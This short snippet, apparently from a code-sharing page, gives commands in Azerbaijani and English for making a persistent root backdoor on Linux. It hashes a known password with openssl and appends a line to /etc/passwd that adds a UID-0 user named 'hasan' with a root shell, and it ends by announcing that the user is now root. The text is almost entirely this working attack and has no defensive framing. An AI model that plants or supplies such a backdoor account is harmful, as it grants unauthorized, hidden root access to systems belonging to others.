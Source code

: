     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
    hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN
# The working mechanism of this is very similar to crontab
echo "hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
" >> /etc/passwd
